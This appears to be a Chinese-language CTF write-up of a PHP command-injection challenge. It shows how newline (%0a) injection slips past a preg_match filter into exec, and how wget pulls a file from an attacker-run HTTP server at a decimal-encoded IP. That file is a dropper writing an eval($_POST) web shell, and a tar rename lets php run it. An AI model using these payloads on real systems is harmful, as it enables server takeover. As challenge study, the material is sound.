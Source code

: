 首先对`args`数组中每个值都需要经过`preg_match`的验证，只能是数字字母下划线

我们利用`%0a`来绕过`preg_match`

implode将数组中的值连接在一起，变成字符串

加上exec执行命令时，%0a可以一次性执行多个命令的结果。

如何实现RCE?

exec，因为有字符限制并且无回显，所以直接执行列目录读文件命令有点困难。那么我们想到的方法就是写一个文件，但是这个也不太好搞，所以我们只能想着从其他地方来搞一个文件，比较好的方法就是通过wget来下载。



用python在本地起了个80端口的web服务
`python -m SimpleHTTPServer 80` 在当前目录下创建一个index.html，wget便会下载该文件

```php
<?php 
file_put_contents("shell.php",'<?php eval($_POST[1]);?>');
?>

```

所以第一步就是下载文件，但是在此之前我们先创个文件夹，进入这个文件夹后再wget，具体原因和我们下面几步有关。

IP地址因为有`.`，所有也不能直接赋值，利用[ip地址转换工具](https://tool.520101.com/wangluo/jinzhizhuanhuan/)

```
args[]=1%0a&args[]=mkdir&args[]=a%0a&args[]=cd&args[]=a%0a&args[]=wget&args[]=ip的十进制
```

相当于执行命令

```
./ 1
mkdir a
cd a
wget xxxxxxx
```

a目录下已经有了一个index.html
那么我们只要用php命令来执行他就可以了，但是文件名（index.html）中有（.）还是有问题。
所以下面一步就是怎么把这个名字给改掉。
一个比较好的方法是通过tar命令，我们如果压缩文件夹的话，文件夹中的内容在压缩文件中会完完整整的保留下来。

```php
args[]=1%0a&args[]=tar&args[]=cvf&args[]=shell&args[]=a
```

相当于

```
tar cvf shell a
```

将文件夹a打包成了shell。
这样我们就可以执行php代码了

```php
args[]=1%0a&args[]=php&args[]=shell
```
